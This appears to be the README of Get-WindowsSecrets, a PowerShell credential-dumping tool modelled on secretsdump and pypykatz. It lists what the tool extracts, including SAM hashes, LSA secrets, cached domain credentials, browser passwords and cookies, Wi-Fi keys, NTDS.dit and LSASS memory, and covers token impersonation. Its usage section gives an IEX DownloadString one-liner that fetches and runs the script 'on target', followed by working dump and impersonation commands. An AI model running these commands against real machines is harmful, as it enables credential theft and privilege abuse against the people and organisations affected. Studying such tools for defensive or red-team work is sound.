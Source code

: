# MindMap

[MindMap](<https://github.com/YRazafim/Get-WindowsSecrets/blob/main/Windows Secrets.pdf>) with pseudo-code for a high-level overview.

# Why

To understand how to dump Windows Secrets internally.<br/>
Powershell implementation of [Secretsdump](<https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py>) and [Pypykatz](<https://github.com/skelsec/pypykatz>).<br/>
The script work (or should work!) on a local Windows machine:
  * Powershell v2 to latest
  * Windows NT 6.0 to latest

It is not intended to bypass AVs/EDRs and you have to be administrator on the computer.<br/>
The code is commented to understand each process.

Currently It can:<br/>
   * Dump BootKey
   * Compute Hashed BootKey
   * Dump SAM
   * Dump LSA Secrets
      *	$MACHINE.ACC = Machine account password in clear text if computer is joined to a domain<br/>
      * DefaultPassword = Clear text password when autologon is configured for an account<br/>
      * NL$KM = Secret key in clear text for decrypting Cached Domain Credentials<br/>
      * DPAPI_SYSTEM = System User PreKey and System Machine PreKey in clear text for decrypting System User MasterKey files and System Machine MasterKey files (DPAPI)<br/>
      * \_SC\_&lt;ServiceName&gt; = Account password for Windows Services (not Scheduled Tasks) in clear text<br/>
      * ASPNET_WP_PASSWORD = Password for .NET services in clear text<br/>
      * L$_SQSA_S-&lt;SID&gt; = Clear text answers for Windows Security Questions
   * Dump Cached Domain Credentials
   * Dump DPAPI Secrets<br/>
      * Wi-Fi passwords<br/>
      * Chrome cookies/passwords<br/>
      * Edge cookies/passwords<br/>
      * Vault Credential Manager passwords (VPOL and VCRD files)
   * Dump VNC passwords (RealVNC, TightVNC, TigerVNC, UltraVNC)
   * Dump NTDS.dit (Shadow Copy and parsing as ESE format)
      * LM and NT Hashes
      * Domain Backup Keys
   * Dump LSASS (ProcOpen and DupHandle methods)
   * List Session Tokens and Impersonate (ImpersonateLoggedOnUser()/CreateProcessWithToken()/CreateProcessAsUser())

# How it works

Download the script on target and from Powershell:
```
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/YRazafim/Get-WindowsSecrets/main/Get-WindowsSecrets.ps1")
. <Path>\Get-WindowsSecrets.ps1;
Get-WindowsSecrets -SAM
Get-WindowsSecrets -LSA
Get-WindowsSecrets -CachedDomainCreds
Get-WindowsSecrets -VNC
Get-WindowsSecrets -NTDS
Get-WindowsSecrets -NTDS -ExportDomainBackupKey
Get-WindowsSecrets -SessionTokens
Get-WindowsSecrets -SessionTokens -FilterUser "Administrator"
Get-WindowsSecrets -ActivatePrivilege "SeShutdownPrivilege"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "ImpersonateLoggedOnUser"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessWithToken"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessAsUser"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessAsUser" -Command "whoami"
Get-WindowsSecrets -LSASS
Get-WindowsSecrets -DPAPI [-SkipLSASS] [-SkipNTDS]
Get-WindowsSecrets -DPAPI -ImportDomainBackupKey <HexStringDomainBackupKeyPVKFormat> -SkipNTDS
Get-WindowsSecrets -DPAPI -InUserContext -NoMasterKeysDecryption -SkipLSA -SkipLSASS -SkipNTDS
Get-WindowsSecrets -DPAPI -Creds 'User1:Pwd1/User2@Domain:Pwd2' -NTHashes 'User1:HexNTHash1/User2@Domain:HexNTHash2'
```

Creds and NTHashes parameters helped for DPAPI only (If you compromised these secrets for a user).
